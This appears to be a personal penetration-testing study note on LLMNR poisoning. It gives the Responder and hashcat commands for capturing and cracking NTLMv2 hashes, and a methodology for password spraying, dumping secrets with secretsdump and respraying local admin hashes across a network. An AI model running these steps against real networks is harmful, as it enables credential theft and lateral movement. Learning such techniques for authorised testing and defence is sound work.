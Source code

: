 ```yaml
---
title: LLMNR POISONING
updated: 2023-09-29 03:06:14Z
created: 2023-09-29 02:59:58Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```


# LLMNR POISONING
## Crack the hashes
1. `sudo responder -I eth0 -dwPv`
2. Copy captured hash to **hashes.txt**
3. `hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt` 
use ***--show*** to list already cracked hashes
use ***--force*** for running on VM
use ***-O*** on bare metal
5. Get target to browse incorrect share eg **\\\hackm**

***
## Methodology
1. Run **LLMNR Poisoning** (**not longer than 5-10mins at a time!!**)
2. Grab hash of *user*
3. Use **hashcat** to crack *user* hash
4. spray the password
5. Find new logins (hopefully)
6. **secretsdump.py** those logins
7. Grab local admin hashes
8. Respray the network with local accounts